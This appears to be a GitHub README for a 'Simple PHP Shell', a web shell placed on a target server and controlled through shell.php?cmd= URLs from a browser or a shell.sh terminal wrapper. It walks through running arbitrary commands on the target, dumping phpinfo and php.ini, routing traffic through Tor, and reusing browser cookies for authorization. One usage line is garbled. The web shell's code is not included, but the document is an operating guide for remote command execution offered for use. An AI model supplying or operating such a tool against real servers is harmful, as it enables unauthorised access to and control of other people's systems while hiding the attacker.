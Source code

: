 # Simple PHP Shell

This is probably the simplest php shell you can get
and you can use it from your terminal

## How To Use It

### From Terminal
```
$ chmod +x shell.sh
$ cat "https://target.com/shell.php?cmd={cmd}" > target
$ ./shell.sh ls -al /

/root
/home
/srv
...
```
### From Browser

Go to URL: *https://target.com/shell.php?cmd=YOUR_SHELL_COMMAND_HERE&html=true*

PHPINFO: *https://target.com/shell.php?cmd=phpinfo*

PHP.INI: *https://target.com/shell.php?cmd=phpini*

## Available Command Line Options

```
   -v VERBOSE MODE
   --tor CONNECT TO TOR
   --cookies USE cookies.txt COOKIES IF YOU NEED AUTHORIZATION
```
For cookies.txt you can use cookies.txt Chrome or Firefox Extension,
and save cookies.txt in the same directory where the shell.sh is executed.
